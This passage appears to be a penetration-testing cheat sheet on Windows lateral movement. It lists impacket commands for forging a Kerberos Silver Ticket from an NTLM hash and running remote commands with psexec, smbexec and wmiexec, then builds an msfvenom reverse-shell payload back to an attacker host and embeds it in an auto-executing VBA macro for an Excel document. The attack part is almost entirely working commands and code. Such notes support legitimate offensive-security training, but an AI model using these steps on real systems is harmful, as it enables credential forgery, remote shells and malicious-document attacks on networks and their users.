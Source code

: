 SILVER TICKET via. KALI
```bash
# generate the Silver Ticket with NTLM
$ python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# set the ticket for impacket use
$ export KRB5CCNAME=<TGT_ccache_file_path>

# execute remote commands with any of the following by using the TGT
$ python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
$ python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
$ python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

### Distributed Component Object Model (DCOM)
* DCOM allows a computer to run programs over the network on a different computer e.g. Excel/PowerPoint/Outlook
* Requires RPC port 135 and local admin access to call the DCOM Service Control Manager - the API.
* The `run` method within DCOM allows us to execute a VBA macro remotely.

DCOM - create payload and VBA macro
```
# (kali) create rshell payload
$ msfvenom -p windows/shell_reverse_tcp LHOST=[kali] LPORT=4444 -f hta-psh -o evil.hta

# (python) split payload into smaller chunks starting with "powershell.exe -nop -w hidden -e
str = "powershell.exe -nop -w hidden -e {base64_encoded_payload}"
n = 50
for i in range(0, len(str), n):
print "Str = Str + " + '"' + str[i:i+n] + '"'

# create VBA macro -> insert into Excel file
Sub AutoOpen()
    exploit
End Sub
Sub Document_Open()
    exploit
End Sub
Sub exploit()
        Dim str As String
        {insert_payload_here}
        # OPTION 1
        Shell (Str)                    
        # OPTION 2
        # CreateObject("Wscript.Shell").Run str
End Sub

# check if document contains valid exploit macro
$ mraptor [exploit.doc]
```
